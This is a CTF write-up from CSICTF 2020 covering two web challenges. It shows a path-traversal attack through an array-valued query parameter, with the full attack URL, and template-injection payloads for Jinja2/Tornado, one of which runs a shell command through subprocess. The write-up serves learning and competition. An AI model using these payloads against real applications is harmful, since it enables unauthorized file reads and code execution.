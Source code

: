 ```yaml
---
title: CSICTF 2k20 - Web Exploitation
summary: Web exploitation writeups of CSICTF 2k20
date: "2020-07-21T20:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


After a long week of work I decided to participate in CSICTF2k20 with my team Fword since I didn't participate for a long time :( We were among the top 30 teams and we managed to almost solve all Web exploitaion tasks with my teammate @Hera. However I enjoyed solving File Library and The Usual Suspects tasks.

# File Library 497pts (40 solves) #

 ![TASK](https://imgur.com/IRJZKbM.png)
 
 We are given the source code of the task :
 
 ```js
const express = require('express');
const path = require('path');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    let { file } = req.query;
    console.log("file is: "+file);
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {

        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    if (file.length > 5) {
        file = file.slice(0, 5);
    }

    const returnedFile = path.resolve(__dirname + '/' + file);
   console.log("returnedFile: "+returnedFile);
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);
console.log("index +1 is "+file.indexOf('.') + 1);    
console.log("format inside allowedfile is: "+format);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

 ```
 I added some logging statements to facilitate things, as you can see when we visit **/getfile** we can provide in a get parameter a filename that will be displayed for us but there are some restrictions,
 we can't use whitespaces or "/", there are only four extensions that are allowed (js|ts|c|cpp) .

![TASK](https://imgur.com/ClTfqlL.png)
 
 After reading carefully the source code, I was pretty sure that we will use http parameters pollution because there is no check concerning the type of get parameters so we can enter an array and try to exploit the misbehaviour that may occur.
 
 Let's imagine that we enter the following array :
 
 > ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt",".","js"]
 
* **1st Check** : ``` if (file.includes(' ') || file.includes('/')) ``` 
 
 When includes is applied to an array it will check if there's a field that is equal to the passed parameter (" " and "/" in our case) which is false here so we can successfully pass this check
 
* **2nd Check** : ``` if (!allowedFileType(file)) ```

Let's take a look at the code of this function :

```js

function allowedFileType(file) {
const format = file.slice(file.indexOf('.') + 1);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

```

It will slice our array beginning from the indexOf(".")+1 so in our case the result will be the last field of our array which is "js" and Bingo we will also pass this check :D

The following lines will remove the last two fields of our array :

```js
if (file.length > 5) {
  file = file.slice(0, 5);
}
```
so our array will become:

> ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt"]

And finally after resolving the path returnedFile will contain /proc/self/cwd/flag.txt

```js
const returnedFile = path.resolve(__dirname + '/' + file);
```
**Note:** __dirname which is the current directory is ignored because of our "../../" fields, and **/proc/self/cwd** is equivalent to the current directory.

So finally our array will be resolved to the path we want, this is the final payload which is only a traduction to what we said before:

```
http://chall.csivit.com:30222/getfile?file[]=../../&file[]=../../&file[]=../../&file[]=../../&file[]=../../proc/self/cwd/flag.txt&file[]=.&file[]=js
```
![TASK](https://imgur.com/sdvZ1eL.png)

It was a really nice task so thanks to the author!

# The Usual Suspects 499pts (32 solves) #
 
![TASK](https://imgur.com/qorhTCy.png)
 
 Visiting the website, a well trained eye can directly notice the possibility of an SSTI attack in icecream parameter.
 
![TASK](https://imgur.com/zbwADG6.png) 
 
We thought that it was a typical SSTI task but unfortunately even after getting RCE using the usual jinja2 SSTI payloads we didn't find anything. The first payload we used:

> {{ ''.__class__.__mro__[1].__subclasses__()\[270\]('ls',shell=True,stdout=-1).communicate()}}

After this step we really didn't know what to do, the server used here was Tornado, which is an asynchronous python web server so I started reading its documentation and I noticed that the Main class always inherits from **tornado.web.RequestHandler**.
After some digging I got a nice idea , what if we list all the subclasses of Object ( The super class, it's the parent of all classes) Then we will list the subclasses of tornado.web.RequestHandler and finally we will check the globals of **get** function from MainHadnler class.

* Get the RequestHandler class:

> {{ ''.__class__.__mro__[1].__subclasses__()[363]}} 

* Get the MainHandler class which inherits from RequestHandler

> {{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1]}} 

And finally we will see the __globals__ of get function ( **__globals__** is a reference to the dictionary that holds the function’s global variables ).
Final payload: 

```
{{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1].get.__globals__}}
```
Bingo we got our flag :D I asked the admin and he told me that this is the unintended solution of the task.

![DISCORD](https://imgur.com/8pcqJ3T.png)

If you have any questions you can contact me on twitter @BelkahlaAhmed1 or contact our team twitter @FwordTeam ! I hope that you liked the writeup, and don't forget to participate in FwordCTF on 29th of August , a lot of fun challenges will be there.
